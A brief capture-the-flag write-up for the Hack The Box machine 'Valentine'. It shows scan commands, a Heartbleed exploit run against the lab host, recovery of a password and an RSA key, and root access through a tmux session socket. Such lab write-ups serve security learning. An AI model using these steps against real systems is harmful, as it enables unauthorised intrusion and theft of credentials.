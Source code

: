 # [Valentine](https://app.hackthebox.com/machines/valentine)

```bash
rustscan 10.10.10.79
```

![Alt text](img/image.png)


After knowing, the 22,80,443 ports are open, let's do nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 --script=vuln 10.10.10.79 -Pn
```

We got soo big result. (CVE-2014-0160).


![Alt text](img/image-1.png)

That's the vulnerability called 'Heartbleed'. Let's exploit it.

I find exploit code already.

![Alt text](img/image-2.png)

Let's run it.
```bash
python2 32764.py 10.10.10.79 -p 443
```

![Alt text](img/image-3.png)


Once, we decode this, we know the password.


password: heartbleedbelievethehype


Let's download hype_key file.
```bash
wget https://10.10.10.79/dev/hype_key --no-check-certificate
```

Now, we decode this by using xxd.

```bash
cat hype_key | xxd -r -p
```
![Alt text](img/image-4.png)


We grab RSA key from here.

Then add into id_rsa file and give '600' permissions for this and login.

![Alt text](img/image-5.png)


user.txt

![Alt text](img/image-6.png)


Once, we look at the history command result and paste into shell.

![Alt text](img/image-8.png)

Hola , we are root user.

```bash
tmux -S /.devs/dev_sess
```

root.txt

![Alt text](img/image-7.png)
